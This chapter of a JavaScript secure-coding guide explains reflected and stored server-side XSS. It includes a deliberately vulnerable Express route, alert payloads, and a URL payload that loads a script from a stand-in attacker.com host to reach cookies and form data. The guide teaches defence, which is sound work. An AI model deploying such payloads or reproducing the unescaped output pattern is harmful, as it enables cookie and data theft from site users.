

Server XSS
==========

As said before "Server XSS" occurs when untrusted data is include in an HTML
response generated by the server. User input is always considered _untrusted_
and _unsafe_ data and it is the most common source of malicious payloads.

Users can supply data to the server through the URL (HTTP `GET` request) or by
filling a form (HTTP `POST` request).

URL parameters are usually used by search engines to send searching keywords to
the server as you can see in Google: your keywords will be visible in the `q`
URL parameter

```
https://www.google.pt/search?q=JS+SCP
```

Following the HTTP request work-flow it will arrive on the server and the value
or `q` parameter will be used to compute the searching results.
Let's assume that there are no results matching your searching criteria. A
common approach to this use case is to write on the screen

```
No results found for "JS SCP"
```

The HTTP request/response is complete and we can easily guess what operations
were done by the server. The following example, illustrates them using an
[Express Node.js web application framework][] router

```javascript
const express = require('express');
const db = require('../lib/db');
const router = express.Router();

router.get('/search', (req, res) => {
  const results = db.search(req.query.q);

  if (results.length === 0) {
    return res.send('<p>No results found for "' + req.query.q + '"</p>');
  }

  // ...
});
```

The `JS SCP` keywords cause no problem, but what if we do search for
`<script>alert(XSS)</script>`?
Th URL will look like

```javascript
https://www.google.pt/search?q=<script>alert(XSS)<%2Fscript>
```

and assuming that there are no results also to this searching keywords, the
server's answer will be

```html
<p>No results found for "<script>alert(XSS)</script>"</p>
```

After receiving and parsing server's HTTP response, you will see written on the
page `No results found for` and a modal window like the one below: your payload
was successfully executed.

<div style="text-align: center">

</div>

It may look not so bad as "we know" that our searches are not persisted
server-side (and so this is also known as Non-Persistent XSS). This way it won't
affect any other users. Well, an attacker will have only to share the URL on a
side channel like email, social networks maybe with a more "meaningful" payload.

```
https://www.google.pt/search?q=<script>s=document.createElement("script"),s.src="//attacker.com/ms.js",document.body.appendChild(s);<%2Fscript>
```

In this case the payload, creates a new `<script>` element which when appended
to the Document body, will load an external arbitrary JavaScript file, under the
attacker's control. This malicious script will execute on page's context with
granted access to everything a legit script has e.g. cookies, local storage,
form data, etc...

For completeness, users' posts/comments on social networks are great examples of
data sent to the server via an HTTP `POST` request. This data won't be visible
in the URL as it is transfered in the request's message body but the work-flow
is pretty much the same (little differences applies on how the server reads
this data).

Let's say we want to share on a social network how awesome this book is, posting
the following contentw

```
Hey guys you definetly read the JS SCP guide!
<script>alert('it is awesome!')</script>
```

In this case we expect our post/comment to be persisted, perhaps on a database,
so that it will be available to other users and for later readings. This fits a
Persistent XSS scenario: the payload is stored server-side and then served to
other users.